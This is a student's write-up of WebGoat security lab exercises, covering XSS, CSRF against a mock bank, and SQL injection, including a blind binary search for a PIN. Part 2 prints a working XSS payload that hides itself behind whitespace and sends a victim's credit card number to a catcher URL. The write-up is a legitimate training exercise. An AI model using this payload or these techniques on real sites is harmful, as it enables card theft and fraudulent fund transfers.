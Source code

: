 # Web-Security-Attack

## Part 1:
The search bar is exploitable since the server displays the input back to the webpage without properly checking the input.
Attacker can then type javascript/html as input which will be displayed and run under the origin of the website.
So my input consists of a </form> close tag to close the websites <form> open tag, html to construct a form, and javascript to steal the username and password

## Part 2:
Digital access code is exploitable since the server displays the error message along with the input if input does not make sense, without properly checking/sanitizing the input. 
Attacker can then type javascript/html as input which will be displayed and run under the origin of the website.  Also the submit button doesn't check the input so when user clicks on "Purchase", the malicious code also gets to run.
So I prepared javascript to steal the credit card information, and to also delete error messages the website may display. In addition, I put the original access code "111" and lots of white spaces in front of my javascript, to hide javacript from user. I then encode my javascript and the white spaces, and put them in an argument of my crafted URL.
Below is the unencoded URL:
http://localhost:8090/WebGoat/start.mvc#attack/1406352188/900?field2=123&field1=111                                                  
<script>
	(function hack() {
		var creditCardNumber = encodeURI(document.getElementsByName('field2')[0].value);
		var url = "http://localhost:8090/WebGoat/catcher?PROPERTY=yes&card=" + creditCardNumber;
		var XSSImage = new Image();
		XSSImage.src = url;
		var message = document.getElementById('message');
		while (message.firstChild) {
			message.removeChild(message.firstChild);
		}
	})();
</script>

## Part 3:
The exploitable field is the message field, because the receiver can click on the title, and loads the message which is not properly checked/sanitized by the server.
Attacker can then type javascript/html as message which will be displayed and run under the origin of the website.
In this question, the user happens to be authenticated, so I prepared the message as an html image tag which makes, via its src attribute, a GET request to the "bank" to transfer some money.

## Part 4:
The exploitable field is still the message field. The situation is similar to part 3; the server does not properly check/sanitze the message, and clicking on the title loads the message that may be malicious. The difference here is the "bank" expects a "CONFIRM" request too.
So attacker just needs to "manually" confirm the transaction using javascript/html, in the message field.
So I prepared an iframe that makes, via its src attribute, a GET request to the "bank"  to transfer fund, and on loading, calls a function sends the hard coded "CONFIRM" string to the "bank" so the transaction can be completed.

## Part 5:
The exploitable field is still the message field. The situation is similar to part 4; the server does not properly check/sanitze the message, and clicking on the title loads the message that may be malicious. The difference here is the "bank" expects a token instead of a "CONFIRM" string.
The transaction can be completed since the token is actually on the web page from the "bank" except it is hidden.
So I prepared an iframe that makes, via its src attribute, a GET request to the "bank"  to transfer fund, and when the submit page from the "bank" loads, I will have access to the hidden token. The iframe calls a javascript function to get that token, and send the transfer fund request again with the token.

## Part 6:
The SQL input box is exploitable since the server does not sanitize the SQL input. So I just close the WHERE condition with ', and add another OR condition which always evaluates to true.

## Part 7:
The SQL input box is exploitable since the server does not sanitize the SQL input. The server will execute more than one SQL query, so I just uses ; to end the first query, and put the two evil queries after the ; for part 1 and part 2 respectively.

## Part 8:
The SQL input box is exploitable since the server does not sanitize the SQL input. So I just add an extra condition to the WHERE clause. The extra condition is an AND whose value comes from a subquery that guess the range of PIN. My initial guess is less than 10000 which turned out to be true.
Then I do a binary search as follows:
1st try: 10000 -> valid
2nd try: 5000 -> valid
3rd try: 2500 -> valid
4th try: 1250 -> invalid
5th try: 1875 -> invalid
6th try: 2188 -> invalid
7th try: 2344 -> invalid
8th try: 2422 -> valid
9th try: 2383 -> valid
10th try: 2364 -> invalid
11th try: 2374 -> valid
12th try: 2369 -> valid
13th try: 2367 -> valid
14th try: 2365 -> valid (answer is 2364)

And arrive at the correct PIN = 2364.
